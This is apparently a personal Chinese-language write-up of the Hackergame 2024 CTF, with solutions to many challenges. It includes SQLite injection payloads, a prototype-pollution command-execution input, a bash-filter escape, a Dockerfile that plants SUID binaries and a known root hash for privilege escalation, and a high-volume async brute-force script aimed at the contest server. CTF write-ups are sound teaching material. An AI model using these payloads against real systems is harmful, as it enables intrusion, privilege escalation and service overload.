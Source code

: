 # Hackergame 2024 个人题解
Lysithea 48th 5250 

![](https://img.shields.io/badge/你们怎么这么能卷啊-c9d8df) ![](https://img.shields.io/badge/没有openAI_o1_preview用感觉像个原始人-d8b7b0) ![](https://img.shields.io/badge/算力不足恐惧症-c9d8df) ![](https://img.shields.io/badge/Z3也沙疯了-94a28f) ![](https://img.shields.io/badge/好几个就差一步大腿拍烂了-c9d8df) ![](https://img.shields.io/badge/注意力涣散-94a28f) ![](https://img.shields.io/badge/xzrj3攻击服务器了ごめんね-d8b7b0) ![](https://img.shields.io/badge/思维要活跃，要跳脱，不要硬刚-c9d8df) ![](https://img.shields.io/badge/准备赛后不看题解把🥒🐱爆了-d8b7b0)

## ![](https://img.shields.io/badge/web-0c4d72) 签到 

`http://202.38.93.141:12024/?pass=true`

## ![](https://img.shields.io/badge/web-0c4d72) 喜欢做签到的 CTFer 你们好呀

先找到他们招新的官网：https://www.nebuu.la/ （意外找了挺久，从比赛主页-承办单位进）

打开是个伪终端，功能实现还挺全的，虽然知道都是写好的JS，骗骗自己而已

`env`里有一个，然后`ls -al`可以看到个`.flag`，`cat .flag`是另一个。

还有个解法是去逆向JS，有几个很长的base64解一解就出来了。

## ![](https://img.shields.io/badge/general-af2447) 猫咪问答（Hackergame 十周年纪念版）

Hackergame的问答题目有一点好（或者不好），就是它提交答案是不限提交间隔的。偏偏它还出一大堆纯数字的题，这不是明摆着教人爆破嘛。

总之先拍个爆破脚本在这里：

```py
import requests
from bs4 import BeautifulSoup

sess = requests.session()
sess.cookies.set('session', os.environ.get('TOKEN',''), domain='202.38.93.141')

HOST = 'http://202.38.93.141:13030/'

ans = {
    'q1': '3A204',
    'q2': '2682',
    'q3': '程序员的自我修养',
    'q4': '336',
    'q5': '',
    'q6': '',
}

TARGET = 'q6'

resp = sess.post(HOST, data = ans)

bench_score = int(BeautifulSoup(resp.text, 'lxml').select_one('.alert').text.split('。')[0].split('为 ')[1])

for i in range(0, 6000):
    ans[TARGET] = str(i)
    resp = sess.post(HOST, data = ans)
    score = int(BeautifulSoup(resp.text, 'lxml').select_one('.alert').text.split('。')[0].split('为 ')[1])
    if score > bench_score:
        print('correct', i)
        break
    else:
        print('wrong', i)

```

#### Q1: 在 Hackergame 2015 比赛开始前一天晚上开展的赛前讲座是在哪个教室举行的？

首先去找历届Hackergame新闻，能找到他们[中科大Linux用户协会](https://lug.ustc.edu.cn/wiki/lug/events/hackergame/)的历年活动记录，不过很可惜Hackergame赛前讲座没有到第一届的。不过上面有个第三届的【链接已失效】，于是就去web of archive上找了一下，结果找到了2017年[失效之前的网页内容](https://web.archive.org/web/20170514082933/http://sec.ustc.edu.cn/doku.php/contest)。3A204

#### Q2: 众所周知，Hackergame 共约 25 道题目。近五年（不含今年）举办的 Hackergame 中，题目数量最接近这个数字的那一届比赛里有多少人注册参加？

虽然我知道Github全找一遍就行，但是太累了，MD跟他爆了！

#### Q3: Hackergame 2018 让哪个热门检索词成为了科大图书馆当月热搜第一？
能让检索词成为第一的只能是猫咪问答了，所以去看了一下[当年和图书馆有关的题](https://github.com/ustclug/hackergame2018-writeups/blob/master/official/ustcquiz/README.md)

> 在中国科大图书馆中，有一本书叫做《程序员的自我修养:链接、装载与库》，请问它的索书号是？
>
> 打开中国科大图书馆主页，直接搜索“**程序员的自我修养**”即可。

#### Q4: 在今年的 USENIX Security 学术会议上中国科学技术大学发表了一篇关于电子邮件伪造攻击的论文，在论文中作者提出了 6 种攻击方法，并在多少个电子邮件服务提供商及客户端的组合上进行了实验？

首先要找到是哪篇论文《[FakeBehalf: Imperceptible Email Spoofing Attacks against the Delegation Mechanism in Email Systems](https://www.usenix.org/conference/usenixsecurity24/presentation/ma-jinrui)》。然后稍微读一下文章即可（或许也有种办法是搜一下数字）。目标在第6节的开头，`All 20 clients are configured as MUAs for all 16 providers
 via IMAP, resulting in 336 combinations (including 16 web
 interfaces of target providers). `

#### Q5: 10 月 18 日 Greg Kroah-Hartman 向 Linux 邮件列表提交的一个 patch 把大量开发者从 MAINTAINERS 文件中移除。这个 patch 被合并进 Linux mainline 的 commit id 是多少？
这个事是个大新闻，所以<s>跑得快</s>报道的媒体肯定很多，随便[搜了一个](https://www.phoronix.com/news/Russian-Linux-Maintainers-Drop)，里面就有commit的截图。

#### Q6: 大语言模型会把输入分解为一个一个的 token 后继续计算，请问这个网页的 HTML 源代码会被 Meta 的 Llama 3 70B 模型的 tokenizer 分解为多少个 token？

似乎是可以去Huggingface上找那个tokenizer.json，但是下载好像要申请权限。不过无所谓，既然是纯数字，那跟它爆了！


## ![](https://img.shields.io/badge/general-af2447) 打不开的盒

给了个stl模型文件，用blender导入之后，以网格模式查看，发现盒子中间有些节点很明显是flag的形状。于是只要把盒子外边的顶点在编辑模式下全删了就行。当然即使全删了，还需要人眼OCR。

## ![](https://img.shields.io/badge/general-af2447) 每日论文太多了！

下载论文之后，用Acrobat搜索flag，发现停在了一个神奇的图片后面（甚至看不见光标），用编辑模式把图片挪开就拿到flag了。

我更加震惊的是，期刊/会议发表论文居然可以这么藏私货的吗。

## ![](https://img.shields.io/badge/web-0c4d72) 比大小王

> 看得出来是想neta小猿口算

总之是一个比大小的题，要10秒内做100道。一开始服务端会把所有题目以json形式送过来，然后我们就可以在devtools控制台里跑个js脚本生成正确答案，就可以秒出了。另外这个题的题目发过来后比赛开始前有个倒计时，抢跑会被发现。

```js
state.inputs = state.values.map((el) => {
    let res = '<';
    if( el[0] > el[1] ){
        res = '>'
    }
    return res
})

submit(state.inputs)
// flag{I-AM-TH3-hACker-KiN9-0f-CoMP@RIN9-numbeRs-Z0Z4}
```

## ![](https://img.shields.io/badge/general-af2447) 旅行照片

我知道这个OSINT挺放水的了，但是我就是弱OSINT，怎么办嘛

#### Q1: 科里科气
<img src="[osint/klkq.jpg](https://raw.githubusercontent.com/USTC-Hackergame/hackergame2024-writeups/refs/heads/master/official/%E6%97%85%E8%A1%8C%E7%85%A7%E7%89%87%204.0/photos/klkq.jpg)" width=50%/>

> 问题 1: 照片拍摄的位置距离中科大的哪个校门更近？（格式：X校区Y门，均为一个汉字）
> 问题 2: 话说 Leo 酱上次出现在桁架上是……科大今年的 ACG 音乐会？活动日期我没记错的话是？（格式：YYYYMMDD）

这个算是把标志性建筑摆脸上了，百度地图随便搜一下就出。这个地方在中校区和东校区之间，一共就几个门，遍历一下就出（而且门的名字只能有一个字，也排除了一些）

ACG音乐会的话，首先搜B站视频是不准的，因为基本不可能存在当天就放出演出视频的情况（总得剪辑的）。最好的方法是搜社团公号或者[微博]()，因为这种二次元活动一定是会有通知宣传的。

![](osint/acg_concert.jpg)

#### Q2: 两张景点照片

<img src="https://raw.githubusercontent.com/USTC-Hackergame/hackergame2024-writeups/refs/heads/master/official/%E6%97%85%E8%A1%8C%E7%85%A7%E7%89%87%204.0/photos/image01.jpg" width=50%/><img src="https://raw.githubusercontent.com/USTC-Hackergame/hackergame2024-writeups/refs/heads/master/official/%E6%97%85%E8%A1%8C%E7%85%A7%E7%89%87%204.0/photos/image04.jpg" width=50%/> 

> 问题 3: 这个公园的名称是什么？（不需要填写公园所在市区等信息）
> 问题 4: 这个景观所在的景点的名字是？（三个汉字）

右边是个标志性景点，google lens可以出，是宜昌**坛子岭**观

左边从垃圾桶的小字上隐隐约约能看到是六安，于是在六安市的公园，再加上有跑步道，树还挺多。多试了几次就能知道是**中央森林公园**。

#### Q3: 铁路俯视图

<img src="https://raw.githubusercontent.com/USTC-Hackergame/hackergame2024-writeups/refs/heads/master/official/%E6%97%85%E8%A1%8C%E7%85%A7%E7%89%87%204.0/photos/image06.jpg" width=80%/>

> 糟了，三番五次调查学长被他发现了？不过，这个照片确实有趣，似乎有辆很标志性的……四编组动车？
>
> 问题 5: 距离拍摄地最近的医院是？（无需包含院区、地名信息，格式：XXX医院）
> 问题 6: 左下角的动车组型号是？

不会捏。四编组动车搜了一下新闻说是广州广清那里有引进，但是那么长的铁路也没找到和图片里特征相似的。

## ![](https://img.shields.io/badge/general-af2447) 不宽的宽字符

题目给的程序把输入路径从`wchar_t*`直接强转成`char*`了，不用说这是一种极其抽象的行为，因为宽字节数组包含单个0字节的时候不会被截断，但是`char*`会。所以即使程序在我们的输入后面添加了许多垃圾内容，只需要一个null byte就全部无效了。

可以用这个：
```py
s = b'Z:\\theflag\x00\xbb'

if len(s) % 2 == 1:
    s = s + b'\x00'

print(s.decode('utf-16'))
# 㩚瑜敨汦条묀
# flag{wider_char_isnt_so_great_bc8e1de5e2}
```

## ![](https://img.shields.io/badge/general-af2447) PowerfulShell

黑名单比较严格的一个bash逃逸。从结果来看能用的字符只有：`$+-123456789:=[]_``{|}~`。为了做出这个题，需要至少知道这么几件事：

- 一部分bash特殊变量：`$-=hB`包含当前终端的输出模式，`$_=input`是上一个引用的变量名
- 在没有后缀的情况下，`~`会展开为家目录。但我们可以用变量赋值`__=~`取消这个限制。这个很重要，因为我们只能通过这个方式拿到一个`s`
- `${-:1:1}`可以取子字符串。虽然0在黑名单里，但要取第一个字符可以`${-::1}`

这三点少一点应该就完全做不出来。属于是做出来脑子想穿，做不出来大腿拍烂。

```sh
__=~
${__:7:1}${-::1}
```

## ![](https://img.shields.io/badge/web-0c4d72) Node.js is Web Scale

直球考prototype pollution的。总之打开网页后上下分别填`__proto__.eee`和`cat /flag`添加后，直接访问`/execute?cmd=eee`就行

## ![](https://img.shields.io/badge/web-0c4d72)  PaoluGPT

给源码的SQLite注入，比较送。不过值得注意的是这个题没有藏表，所有flag全在文章内容里，所以得写代码遍历。虽然flag2是在隐藏文章里需要注入才能找到，但是flag1不需要注入的明显更难找，大隐隐于市了。

总之做个备忘，SQLite主表是`sqlite_master`，直接存的是表名和sql语句，所以不用爆列名了。

```sql
/view?conversation_id=1' union select name,sql from sqlite_master limit 1 offset 0--
' union select title,contents from messages limit 1 offset %s--
```

## ![](https://img.shields.io/badge/math-90b452) 强大的正则表达式

正则编程题，只能用数字小括号星号和数线，最大字符限制1000000。时间有限就只做了第一问。求16的模。因为`16*625=10000`，所以只要把后四位的情况遍历一下就行了。注意小于10000前面没有0，要单独处理

## ![](https://img.shields.io/badge/math-90b452) 惜字如金 3.0

> 沟槽的xzrj还在追我

第一问没什么好说，就是确保你理解了这套变换规则的。

第二问的CRC函数大小写信息被抹掉了。这个变化会影响结果，所以可以本地爆破出来。

首先说明一下，提交到网站上的文件如果包括错误的行，会返回你的行对应的hash（而不会暴露服务端的）。如果hash一致但内容错了，爆出的是你的文件里最后一个错误的字符。如果hash恰好和其他行一致（传错行了），那么也会指明。

```py
def crc(input: bytes) -> int:                                                   
    poly, poly_degree = 'B', 48 # 这里少了48个B或b
    assert len(poly) == poly_degree + 1 and poly[0] == poly[poly_degree] == 'B' 
    flip = sum(['b', 'B'].index(poly[i + 1]) << i for i in range(poly_degree))  
    digest = (1 << poly_degree) - 1                                             
    for b in input:                                                             
        digest = digest ^ b                                                     
        for _ in range(8):                                                      
            digest = (digest >> 1) ^ (flip if digest & 1 == 1 else 0)           
    return digest ^ (1 << poly_degree) - 1                                      
                                                                                
                                                                                
def hash(input: bytes) -> bytes:                                                
    digest = crc(input)                                                         
    u2, u1, u0 = 0xdbeEaed4cF43, 0xFDFECeBdeeD9, 0xB7E85A4E5Dcd                 
    assert (u2, u1, u0) == (241818181881667, 279270832074457, 202208575380941)  
    digest = (digest * (digest * u2 + u1) + u0) % (1 << 48)                     
    return digest.to_bytes(48 // 8, 'little')                                   
```

首先观察一下crc算法。第一步是用那个大小写未知的poly变量构造一个48位的整数`flip`，一一对应。之后用`flip`处理输入。从一个全1数开始，每次读入一个字节和最低字节异或，然后右移一位，根据最低位的情况是否和flip异或，重复8次，开始处理下一个字符。这个选择异或的过程是可逆的（假设flip最高位为1，可以通过最高位的情况预测是走哪个分支）。但对flag2没有帮助（对flag3可能有）。但是通过构造一个特定的输出可以让这个函数稳定返回`~flip`，即`FFFFFF` + 全0 + `80`。

然后就是第二个hash函数，是`2**48`模意义下做了个二次函数运算。因为模是合数所以这个乘法是不可逆的，不太确定非质数模意义下二次函数求根公式还有没有意义。总之我是taichi写了个gpu kernel爆算的。这竟然是我第一次写taichi。在和`range`不支持64位整数这件事斗争很久后，写出了这段东西：

```py
import taichi as ti

# export LD_LIBRARY_PATH="/usr/lib/wsl/lib:${LD_LIBRARY_PATH}"
ti.init(arch=ti.gpu, default_ip=ti.i64)

target_f = 'answer_c.py'
u2, u1, u0 = (241818181881667, 279270832074457, 202208575380941) if target_f == 'answer_b.py' else (246290604621823, 281474976710655, 281474976710655)
target_hash = 229418662089585

if target_f == 'answer_c.py':
    poly, poly_degree = 'CcccCCcCcccCCCCcCCccCCccccCccCcCCCcCCCCCCCccCCCCC', 48 
    assert len(poly) == poly_degree + 1 and poly[0] == poly[poly_degree] == 'C' 
    flip = sum(['c', 'C'].index(poly[i + 1]) << i for i in range(poly_degree))

@ti.kernel
def calc_hash(hash: ti.u64) -> ti.u64:
    ''
    u1_ = ti.u64(u1)
    u2_ = ti.u64(u2)

    result = ti.u64(0)
    for i_high in range(0x1000, 0x1000000):
        for i_low in range(0x1000000):
            digest = ti.u64(i_high) * 0x1000000 + ti.u64(i_low)
            hash_res = (digest * (digest * u2_ + u1_)) & 0xffffffffffff
            if hash == hash_res:
                result = digest
                print(f"result: {digest}")
            
            if (i_low % ti.u64(0x100000) == 0) and (i_high % ti.u64(0x100000) == 0):
                print(f"status: {i_high // 0x100000} {i_low // 0x100000}")
            
    return result

flip_inv = calc_hash((target_hash - u0 + 2**48) % (2 ** 48))
print(f"result: {flip_inv}")
```

只要上线请求一组那个对应`~flip`的hash，然后拿到这里爆算就行了。在我的4060上把结果跑出来大概十几分钟。

flag3前半部分用相同办法可以爆出poly，但是hash里的u2,u1,u0里的大小写未知，并且这个是不影响运行结果的。因为拿不到任何服务端hash的信息，所以只能在线爆破了。hash的取值空间是`2**48`，但是这一行所有输入的取值空间是`2**32`。每次提交能检查的行数等于文件原行数97，所以我们最多爆`2**32 // 97 + 1 == 44278014`次。似乎刚好在爆破允许的边缘。

我用`httpx`写了个超快的异步并发算法。我在两个不同设备上跑两份这个代码可以发现请求速度明显变慢了，说明已经到达服务端的饱和吞吐量（或者至少是我们这个校园网带宽的最大吞吐量），不用做多线程优化了。目前这个算法是一轮触发100个请求，期间请求失败就立刻重新请求，所有请求全部成功后进入下一轮。我知道这个会导致一些轮空的机制，但我发现把这个100改大之后反而跑的更慢了，我觉得我这边快没用，带宽和服务端那边得能顶得住才行。那么这样大概是44万轮，按第一天的速度1秒一轮的话，大概总共用时5.09天……似乎有戏？（然后第二天服务器就降速了，用时翻了2-3倍，呃呃）

> 虽然我知道一般CTF比赛都是禁止在线爆破的。我还特意看了眼比赛规则，没提这个事

```py
template = "    u2, u1, u0 = 0xDFFFFFFFFFFF, 0xFFFFFFFFFFFF, 0xFFFFFFFFFFFF                 "
ind_0 = template.index("xDF") + 3
ind_1 = template.index("xF") + 2
ind_2 = template.rindex("xF") + 2
ind_mask = list(chain(range(ind_0, ind_0 + 10), range(ind_1, ind_1 + 11), range(ind_2, ind_2 + 11)))

def num_to_target_line(num):
    num_bin = f"{num & 0xffffffff:032b}".replace('0','F').replace('1','f')
    req_str = list(template)
    for i, bit in enumerate(num_bin):
        req_str[ind_mask[i]] = bit
    return ''.join(req_str)

client = httpx.AsyncClient()
client.cookies.set('session', TOKEN, domain = '202.38.93.141')

async def req_hash_async(num_iter):
    # construct body
    body = "\n".join([num_to_target_line(i) for i in num_iter]) + "\n"

    HOST = f'http://202.38.93.141:19975/{target_f}'
    while True:
        try:
            resp = await client.post(HOST, data=body)
            resp_json = resp.json()
            break
        except httpx.ConnectTimeout:
            continue
        except json.JSONDecodeError:
            if (resp.status_code == 502) or (not resp.text):
                continue

            print(f"json: {resp.text}")
            continue
        except (KeyboardInterrupt, SystemError):
            raise
        except Exception as e:
            if str(e) and str(e) != 'All connection attempts failed':
                print(f"unknown exception: {str(e).encode()}")
            continue
    
    if resp.status_code in (400, 200):
        for k,v in resp_json['wrong_hints'].items():
            if 'Unmatched hash' in v:
                continue
            else:
                print(f"possible result: {body.splitlines(keepends=False)[int(k) - 1], v}")

    else:
        # unlikely
        print(f"unlikely: {num_iter, resp.text, body}")

N_LINE = 97
EVENT_BATCH_SZ = 100
import sys
START_BATCH = int(sys.argv[1]) if len(sys.argv)>1 else 0
INTMAX_RES = 2 ** 32 // 97

def task_iter(loop, max_task = 1000, start_task = 0):
    for i in range(start_task, max_task):
        yield loop.create_task(req_hash_async(range(i*N_LINE, (i+1)*N_LINE)))

loop = asyncio.get_event_loop()
for start_task in tqdm(range(START_BATCH, INTMAX_RES + EVENT_BATCH_SZ, EVENT_BATCH_SZ)):
    t_st = time.time()
    loop.run_until_complete(asyncio.wait(list(task_iter(loop, start_task + EVENT_BATCH_SZ, start_task))))
    t_ed = time.time()
    # print(f"Batch {start_task}: duration: {t_ed - t_st} s")

loop.close()
```

另外我意识到我们可以找到一组输入让它的hash返回`answer_c.txt`，但是没想到怎么用，因为长度检查加上爆hash的难度，基本不可能用这种方法leak flag。也许是我想错了吧。期待出题人或者其他人给出不基于在线爆破/降低在线爆破压力的解法（比如说本地逆那个crc发现相当一部分请求给出的hash是相同的）。不然的话怎么说呢，校内骑在服务器上网速更快，专业团队有更多云设备的话也能多端高并发，就我这什么也没有，那不是很不爽。

## ![](https://img.shields.io/badge/math-90b452) 优雅的不等式

只用加减乘除乘方构造一个sympy函数，使得其在0-1定积分等于`pi - p/q`，其中p/q是给定的两个数。flag2需要给出`q`达到`2**200`的最近逼近。

只做了第一问，只要解决1/2和8/3两个最简单情况：
```py
naive_f_0 = f'4*((1-x**2)**(x/(x+x))-1+x)'
naive_f_1 = f'4*((1-x**2)**(x/(x+x))-1+x**2)'
```

## ![](https://img.shields.io/badge/general-af2447) 无法获得的秘密

题目是个不能复制的NoVNC连接一个不联网的debian桌面系统，有一个`/secret`大约64MB的二进制文件，我们需要把这个文件的内容分毫不差地带出来。

传说中的OCR题。作为开始的第一步，我想这个题应该需要大量机器辅助操作，所以我写了一个`selenium`和网页交互。考虑到写鼠标操作有点困难，我只写了向终端输入内容的部分，进入系统后我需要手动打开终端最大化。

```py
input("> ready to paste shell")

driver.switch_to.frame('novnc-iframe')

driver.execute_script('document.getElementById("noVNC_control_bar_handle").remove()')

driver.find_element(By.CSS_SELECTOR, 'canvas').send_keys(init_cmd + '\n')
```

然后我们需要把二进制的secret转化为可打印字符。我一开始用的是base64，但后来我意识到这会给OCR工作带来多么大的压力后，我采用了base16，也就是hex编码。这样文件大小会变为2倍，但是可识别性容易多了。

```py
init_cmd = 'echo "print(open(\'/secret\',\'rb\').read().hex(sep=\'\\n\',bytes_per_sep=38).upper())">p.py && python3 p.py >s && echo \'#!/bin/bash\'>c && echo \'head -n$1 s|tail -n30\'>>c && chmod +x c && head -n100 s'
```
这段代码生成几个脚本文件
- `p.py`: 把secret转换为base16存储到本地文件`s`中。每行最多38个字符（和base64默认一致）
- `c`: shell脚本，用head和tail，打印文件固定位置下30行。

之后利用`selenium`的截图功能，每运行一次`c`就截一张图，大概总共需要460张图把整个文件截完。

```py
for i in range(460):
    driver.find_element(By.CSS_SELECTOR, 'canvas').send_keys(f"bash c {(i + 1)*N_LINE}\n")
    time.sleep(2)
    driver.save_screenshot(f'tmp/{i:04d}.png')
    print(f"screenshot {i} saved")
```

在正式OCR之前还要做些预处理，截取文字区域，二值化。这部分我用的opencv2。

```py
def preprocess(img_path, slice_row = True):
    im = cv2.imread(img_path)
    im = cv2.cvtColor(im, cv2.COLOR_RGB2GRAY)

    im = im[164:829, 100:900]
    # print(im.shape, im.dtype)

    thre, im_thre = cv2.threshold(im, 127, 255, cv2.THRESH_BINARY_INV)
    if slice_row:
        # print(im_thre.shape, im_thre.dtype)
        row_hist = np.mean(im_thre, axis=1)
        # col_hist = np.mean(im_thre, axis=0)
        # print(row_hist)

        row_slices = []
        # record max hist of this row
        row_hist_max = []

        record_st = None

        for i_row in range(row_hist.shape[0]):
            is_gap = row_hist[i_row] < .1
            if (record_st is not None) and is_gap:
                # stop recording
                row_slices += [im_thre[record_st:i_row, :]]
                row_slices[-1] = cv2.resize(row_slices[-1], (row_slices[-1].shape[1] * 3, row_slices[-1].shape[0] * 3), cv2.INTER_LINEAR)
                row_hist_max += [np.mean(row_slices[-1][:])]
                record_st = None

            elif (record_st is None) and (not is_gap):
                # start recording
                record_st = i_row

        # there should be one line that is very small, which is the shell prompt
        I_prompt = np.argmin(np.array(row_hist_max))

        # print(col_hist)

        # to grey
        return row_slices[I_prompt:]
    
    else:
        return im_thre
```

之后进入OCR环节，试了easyocr，umi ocr和tesseract。我这才意识到在追求绝对精度的前提下，现有OCR技术其实还挺糟糕的。另外我在喂给OCR之前还尝试行切割，但还是效果很差。

最后我拿出来手头最nb的OCR软件：Adobe Acrobat。不得不说商业软件就是猛啊，连行切割都不用，直接出结果。

OCR结果出来后，用了`pdfminer`把文字从PDF提取出来。然后会发现文本里其实有不少错误，有些是转换为了base16以外的字符，比如S和5，l和1这种。但还有一些是Base16内部混淆，最经典的就是`B,5,8`这三个字符。其实为了识别精度应该把这三个字符替换成其他不会混淆的字符，但我实在懒得再跑一边OCR流程，于是写了个验证脚本。大概逻辑是，把本地文件的30行传上去，用`diff`做逐行匹配，找出每一页上第几行第几个字母和远程结果不同。最后得到的一个纠正json，格式大概长这样：

```py
err_map_detail = {
    (2100, 7): ('747BD11', '7478D11',),
    (2100, 11): ('68D3BD', '68D38D'),
    (2700, 5): ('086DB9', '086D89'),
    (3690, 3): ('4BD713', '48D713'),
    (4590, 17): ('3E8BBF', '3E5BBF'),
    (6270, 14): ('ECA85B', 'ECA55B'),
    (6270, 29): ('7FB8C1', '7FB5C1'),
    (7440, 23): ('83BD74', '838D74'),
    (8730, 20): ('E8E14C', 'E5E14C'),
    (8910, 6): ('DB2D7E', 'D82D7E'),
    (9780, 21): ('7DB3F', '7D83F'),
    (12090, 30): ('758C1F', '755C1F'),
    (12120, 14): ('FAF8CF', 'FAF5CF'),
    (12360, 14): ('257BD', '2578D'),
    (13410, 4): ('A78CD', 'A75CD'),

}
```

全部处理完后，最后算一个整个文件的md5，结束战斗。

> 忽然意识到最开始文本化的时候，如果能引入纠错码机制，可能省不少事。
>
> 看完题解：原来题解用的是图片编码整个文件，可以一张图直出。可以用带纠错机制的图片编码，或者把VNC的websocket暴露出来自己连接然后改设置为无损传输。

## ![](https://img.shields.io/badge/general-af2447) Docker for Everyone Plus

前年docker题升级版。现在docker只能用sudo调用了，并且限制了只能特定格式的命令，但是docker镜像可以自己打包上传。flag在一个设备文件里，只有`root`和`disk`组有读写权限。

首先这个题终端可以用`lrzsz`收文件。我用pwntools写了个上传函数，带进度条（不太准是因为字符escape的原因，上传文件大小会比真实文件大小大个百分之几）

```py
def sz_upload(conn, fpath):
    '''
    '''
    conn.sendline(b'rz')
    conn.recvuntil(b'waiting to receive.**')
    
    conn_zm = process(['sz',fpath])
    with tqdm(total = os.stat(fpath).st_size) as pbar:
        while True:
            try:
                resp = conn.recv(1024 * 16, timeout=.1)
                conn_zm.send(resp)

                resp = conn_zm.recv(1024 * 16, timeout=.01)
                conn.send(resp)
                pbar.update(len(resp))
            except EOFError:
                break
    return
```

第一问允许的命令格式`sudo -l`为：
```
User user may run the following commands on dockerv:
    (root) NOPASSWD: /usr/bin/docker run --rm -u 1000\:1000 *, /usr/bin/docker
        image load, !/usr/bin/docker * -u0*, !/usr/bin/docker * -u?0*,
        !/usr/bin/docker * --user?0*, !/usr/bin/docker * -ur*, !/usr/bin/docker
        * -u?r*, !/usr/bin/docker * --user?r*
```

所以用前缀限制了我们只能以UID/GID=1000进入容器。我试了直接在后面加`-u  0`，无效，似乎是前面申请了低权限后面再次申请高权限就会被阻止。

以这种方式进入容器的话，suid的cat似乎用不了，但是直接su可以，记得把容器内的su给上suid权限。

总之参考了[这篇博客](https://www.cnblogs.com/kqdssheng/p/18275541#id2.5)。我容器内的密码哈希的用户名用的和前面不一样，这样似乎就不会检查容器外的密码，但获得的UID也确实是0。

```dockerfile
FROM alpine

RUN chmod 4755 /bin/sh /bin/cat /bin/su /usr/bin/passwd

RUN echo me:x:1000:1000:me:/home/me:/bin/sh >>/etc/passwd
RUN echo you:x:1001:1001:you:/home/you:/bin/sh >>/etc/passwd
# root password is password123
# generate with `openssl passwd -1 -salt r00t password123`
RUN sed -i 's/root::0:0:root:/root:$1$r00t$HZoYdo0F7UZbuKrEXMcah0:0:0:root:/g' /etc/passwd
RUN sed -i 's/root:x:0:0:root:/root:$1$r00t$HZoYdo0F7UZbuKrEXMcah0:0:0:root:/g' /etc/passwd

CMD [ "/bin/sh" ]
```

第二问加了`--no-new-priviledge`设置，suid相关提权都会失效，暂时不知道怎么绕。常见的bind docker.sock之类的方法也试过了，没用

```
User user may run the following commands on dockerv:
    (root) NOPASSWD: /usr/bin/docker run --rm --security-opt\=no-new-privileges
        -u 1000\:1000 *, /usr/bin/docker image load, !/usr/bin/docker * -u0*,
        !/usr/bin/docker * -u?0*, !/usr/bin/docker * --user?0*,
        !/usr/bin/docker * -ur*, !/usr/bin/docker * -u?r*, !/usr/bin/docker *
        --user?r*, !/usr/bin/docker * --privileged*, !/usr/bin/docker *
        --device*
```

## ![](https://img.shields.io/badge/general-af2447) 不太分布式的软总线
最后一天看这题三问怎么那么多人做了，干脆也做一下。分类上这题严格应该属于PPC。

DBus是一种进程间通信（IPC）机制，感觉和RPC类的有点像，可以做远程过程调用，或者单纯收发信号。通过dbus-daemon来整合事件循环。许多Linux桌面系统，比如gtk，内部的进程间通信就是用的dbus。gtk的dbus似乎有个专门的库叫gio，抽象程度比dbus稍高，更好用一点。

dbus一般会分系统总线和会话总线，系统总线只有一个，这个题的flagserver就是挂在系统总线上的。会话总线可以有很多，每个会话总线会对应一个DISPLAY环境变量，这也就是为什么用X11或者Xwayland的时候要指定这个环境变量，这样才能与对应的桌面组件进行通信。当然这个题不用想那么多，我们就单纯把这个作为一种RPC手段就行了。

> 为什么提这个，因为网上搜dbus搜到的几乎全是会话总线的代码

和总线通信需要总线地址，对象名，接口名和方法名（如果是方法调用）。这些在文件里内容比较分散。但是这个题附件的`getflag3.c`其实就是一个这种dbus请求的完美模板，只要稍加改动就能直接过flag1，非常感人。不知道这是不是这个题通过率如此高的原因。

```c
#include <gio/gio.h>
#include <glib.h>
void flag1(GDBusProxy *proxy)
{
	GVariant *result;
	GError *error = NULL;
	const gchar *str;

	g_printf("flag1...\n");
	result = g_dbus_proxy_call_sync(proxy,
					"GetFlag1",
					g_variant_new ("(s)", "Please give me flag1"),
					G_DBUS_CALL_FLAGS_NONE,
					-1,
					NULL,
					&error);
	g_assert_no_error(error);
	g_variant_get(result, "(&s)", &str);
	g_printf("The server answered: '%s'\n", str);
	g_variant_unref(result);
    // flag{every_11nuxdeskT0pU5er_uSeDBUS_bUtn0NeknOwh0w_41140ef451}
}

int main( int argc , char ** argv, char **environ)
{
    GDBusConnection * connection;
	GError *error = NULL;
	const char *version;
	GVariant *variant;
    
    connection = g_bus_get_sync(G_BUS_TYPE_SYSTEM, NULL, &error);
    if(connection == NULL) {
        return -1;
    }

    proxy = g_dbus_proxy_new_sync(connection,
				      G_DBUS_PROXY_FLAGS_NONE,
				      NULL,				/* GDBusInterfaceInfo */
				      BUS_NAME,		/* name */
				      OBJ_PATH,	/* object path */
				      INTERFACE,	/* interface */
				      NULL,				/* GCancellable */
				      &error);

    flag1(proxy);
    return 0;
}
```

另外也可以用`dbus-send`shell指令，原则上一行就行。但是这个好像很难处理后两问。

```bash
#!/bin/bash
BUS_NAME="cn.edu.ustc.lug.hack.FlagService"
